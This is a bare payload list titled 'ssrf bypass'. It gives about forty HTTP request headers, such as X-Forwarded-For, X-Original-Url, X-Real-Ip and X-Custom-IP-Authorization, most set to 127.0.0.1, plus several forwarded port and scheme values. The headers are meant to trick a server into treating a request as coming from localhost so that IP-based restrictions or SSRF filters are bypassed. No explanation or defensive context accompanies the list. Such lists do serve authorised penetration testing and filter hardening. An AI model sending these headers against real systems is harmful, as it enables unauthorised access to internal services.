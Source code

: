 # ssrf bypass
- Base-Url: 127.0.0.1
- Client-IP: 127.0.0.1
- Http-Url: 127.0.0.1
- Proxy-Host: 127.0.0.1
- Proxy-Url: 127.0.0.1
- Real-Ip: 127.0.0.1
- Redirect: 127.0.0.1
- Referer: 127.0.0.1
- Referrer: 127.0.0.1
- Refferer: 127.0.0.1
- Request-Uri: 127.0.0.1
- Uri: 127.0.0.1
- Url: 127.0.0.1
- X-Client-IP: 127.0.0.1
- X-Custom-IP-Authorization: 127.0.0.1
- X-Forward-For: 127.0.0.1
- X-Forwarded-By: 127.0.0.1
- X-Forwarded-For-Original: 127.0.0.1
- X-Forwarded-For: 127.0.0.1
- X-Forwarded-Host: 127.0.0.1
- X-Forwarded-Port: 443
- X-Forwarded-Port: 4443
- X-Forwarded-Port: 80
- X-Forwarded-Port: 8080
- X-Forwarded-Port: 8443
- X-Forwarded-Scheme: http
- X-Forwarded-Scheme: https
- X-Forwarded-Server: 127.0.0.1
- X-Forwarded: 127.0.0.1
- X-Forwarder-For: 127.0.0.1
- X-Host: 127.0.0.1
- X-Http-Destinationurl: 127.0.0.1
- X-Http-Host-Override: 127.0.0.1
- X-Original-Remote-Addr: 127.0.0.1
- X-Original-Url: 127.0.0.1
- X-Originating-IP: 127.0.0.1
- X-Proxy-Url: 127.0.0.1
- X-Real-Ip: 127.0.0.1
- X-Remote-Addr: 127.0.0.1
- X-Remote-IP: 127.0.0.1
- X-Rewrite-Url: 127.0.0.1
- X-True-IP: 127.0.0.1

